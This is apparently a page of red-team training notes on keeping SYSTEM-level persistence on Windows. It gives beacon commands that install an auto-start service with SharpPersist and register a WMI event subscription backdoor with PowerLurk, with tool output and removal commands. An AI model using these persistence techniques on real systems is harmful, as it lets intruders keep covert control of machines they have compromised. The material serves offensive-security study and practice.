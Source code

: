 # Elevated Persistence

We can also add persistence mechanisms to mantain `SYSTEM` access.

> **Note**: SYSTEM processes cannot authenticate to a web proxy, so we can't use HTTP Beacones, use P2P or DNS Beacons instead.

## Windows Services

We can create our own service with `AUTO_START` with `SharpPersist`.

```
beacon> upload C:\Payloads\dns-svc.exe
beacon> execute-assembly .\SharpPersist.exe -t service -c "C:\Windows\dns-svc.exe" -n "dns-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\dns-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: dns-svc

[+] SUCCESS: Service persistence added
```

This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START, which means that whe service won't run until the machine is rebooted.

## WMI Event Subscriptions

Persistence via WMI events can be achieved by leveraging the following three classes:

* **EventCostumer**: Is the action that we want to perform (execute a payload).
* **EventFilter**: The trigger that we can act upon.
* **FilterToConsumerBinding**: Links an EventCostumer and EventFilter together.

`PowerLuk` is a PowerShell tool for building these WMI queries.

* [https://github.com/Sw4mpf0x/PowerLurk](https://github.com/Sw4mpf0x/PowerLurk)

```
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import .\PowerLuk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermamentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```

You can view these classes with:

```powershell
Get-WmiEvent -Name WmiBackdoor
```
We can remove the backdoor with:

```powershell
Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject
```